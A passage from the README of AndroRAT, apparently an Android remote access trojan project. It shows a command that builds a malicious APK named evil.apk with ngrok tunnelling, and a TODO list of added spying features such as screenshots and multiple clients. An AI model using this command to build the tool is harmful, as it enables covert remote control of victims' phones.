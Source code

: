 ```python3 androRAT.py --build --ngrok -o evil.apk```
## Interpreter Examples
* Generating APK
<p align="center">
  <img src="Screenshots/6.JPG" width="800"/>
</p>
------------------------------------------------------------------------------------------------------------------------------  
* Some interpreter Commands 
<p align="center">
  <img src="Screenshots/1.JPG" width="800"/>
</p>
------------------------------------------------------------------------------------------------------------------------------
## Supporters:
[![rayep](https://avatars.githubusercontent.com/u/40718616?v=4&s=60)](https://github.com/rayep)
## TODO
* ~~Ngrok support~~
* Set up multi client
* Add screenshot command
## License
AndroRAT is licensed under MIT license take a look at the [LICENSE](LICENSE) for more information
